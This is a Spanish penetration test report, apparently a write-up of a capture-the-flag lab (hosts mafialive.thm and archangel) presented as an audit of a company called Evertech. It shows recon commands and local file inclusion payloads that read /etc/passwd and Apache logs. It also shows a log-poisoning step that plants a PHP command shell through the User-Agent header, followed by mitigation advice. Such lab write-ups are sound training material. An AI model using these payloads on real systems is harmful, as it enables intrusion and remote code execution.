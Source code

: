 # Informe de Pentesting: Evertech

## 1. Introducción
Se llevó a cabo una evaluación de seguridad en la infraestructura de la empresa Evertech con el fin de identificar vulnerabilidades críticas que puedan comprometer la seguridad del sistema. Durante el análisis, se encontraron varios puntos de entrada explotables que podrían permitir acceso no autorizado a la red y sistemas internos. 

Este informe detalla cada etapa del proceso de pentesting, desde el reconocimiento hasta la explotación de vulnerabilidades, así como recomendaciones para mitigar los riesgos identificados.

---

## 2. Reconocimiento
Se realizó un escaneo inicial de la infraestructura utilizando **Nmap** para identificar puertos abiertos y servicios en ejecución:

```bash
nmap -F -T4  evertech.com
```
```bash
nmap -sV -F evertech.com
```
![captura](img/img1.png)

### 2.1 Resultados del escaneo:
- **Puerto 22 (SSH)**: Abierto, con OpenSSH en una versión potencialmente vulnerable.
- **Puerto 80 (HTTP)**: Abierto, con un servidor Apache desactualizado y configuraciones inseguras.

El análisis del puerto 80 reveló un servidor **httpd** con posibles fallos de seguridad, lo que sugiere la presencia de vulnerabilidades explotables en las aplicaciones web alojadas en él.

---

## 3. Enumeración de Subdominios y Directorios
La pagina tiene esta apariencia 
![captura](img/img2.png)

Se utilizó **Sublist3r** y **Gobuster** para descubrir subdominios y directorios ocultos:

```bash
sublist3r -d evertech.com
```

El análisis reveló el subdominio **mafialive.thm**, el cual pertenece a Evertech. Posteriormente, se realizó un escaneo de directorios con **Gobuster**:

```bash
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Se encontraron los siguientes archivos y directorios expuestos:
- `/robots.txt`
- `/test.php`

El archivo `robots.txt` indicaba la presencia de rutas potencialmente sensibles.

---

## 4. Explotación de Vulnerabilidades

### 4.1 Local File Inclusion (LFI)
El archivo `test.php` permite la inclusión de archivos locales mediante el parámetro `view`. Se utilizó el siguiente payload para verificar la vulnerabilidad:

![captura](img/img4.png)


```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
```

Esto confirmó que el parámetro `view` es vulnerable a LFI. Se intentó acceder a archivos sensibles en el sistema:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```

Este payload permitió obtener información sobre los usuarios del sistema, incluyendo posibles cuentas con privilegios elevados.

#### 4.1.1 Posibles explotaciones adicionales
- Acceso a claves SSH almacenadas en `/home/user/.ssh/id_rsa`.
- Extracción de configuraciones de bases de datos en `/var/www/html/config.php`.

### 4.2 Log Poisoning para ejecución remota de código (RCE)
Se detectó que el archivo de logs de Apache (`/var/log/apache2/access.log`) es accesible a través de LFI:

```bash
http://archangel/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```

![captura](img/img5.png)

Esto permite realizar un ataque de **log poisoning**, inyectando código PHP en los registros de acceso del servidor.

#### 4.2.1 Ejemplo de inyección maliciosa:
Se realizó una petición maliciosa con un User-Agent modificado para insertar código PHP:

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://mafialive.thm
```

Luego, al acceder al archivo de logs:

```bash
http://archangel/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=id
```

Se ejecutaron comandos en el servidor remoto con permisos del usuario web.

#### 4.2.2 Posibilidades de escalamiento
- Modificación de archivos críticos en el sistema.
- Creación de una shell web persistente.
- Elevación de privilegios explotando fallos en binarios SUID.

---

## 5. Análisis del Servidor
Durante el pentesting se identificaron vulnerabilidades adicionales en la infraestructura del servidor:

- **Ubuntu desactualizado**, con fallos de seguridad conocidos.
- **Kernel de Linux vulnerable**, permitiendo potenciales ataques de escalamiento de privilegios.
- **Sudo en versión antigua**, lo que podría permitir ataques de abuso de permisos.
- **Servicios en ejecución sin restricciones adecuadas**, lo que aumenta la superficie de ataque.


![captura](img/img6.png)
![captura](img/img7.png)
![captura](img/img8.png)



---

## 6. Recomendaciones y Mitigación
Las vulnerabilidades encontradas representan un riesgo crítico para la seguridad de Evertech. Se recomienda:

1. **Actualizar el sistema operativo y servicios**
   - Aplicar parches de seguridad a Ubuntu y el kernel de Linux.
   - Actualizar OpenSSH y Apache a versiones seguras.

2. **Configurar correctamente Apache**
   - Deshabilitar listados de directorios y acceso a archivos sensibles.
   - Implementar reglas en `.htaccess` para restringir el acceso.

3. **Validar y sanitizar entradas en test.php**
   - Implementar controles en PHP para evitar vulnerabilidades de LFI.
   - Utilizar `allowlist` en lugar de permitir entradas arbitrarias en parámetros GET.

4. **Restringir acceso a logs de Apache**
   - Configurar permisos adecuados en `/var/log/apache2/access.log`.
   - Utilizar técnicas de rotación de logs para evitar exposición.

5. **Monitoreo y detección de actividad sospechosa**
   - Implementar herramientas de monitoreo como Fail2Ban para bloquear intentos de acceso no autorizados.
   - Revisar periódicamente los registros de acceso y errores.

La explotación de estas vulnerabilidades podría permitir a un atacante obtener acceso total al sistema, comprometiendo la integridad y confidencialidad de la infraestructura de Evertech. Es fundamental aplicar las medidas de mitigación recomendadas para fortalecer la seguridad de la empresa y prevenir ataques futuros.



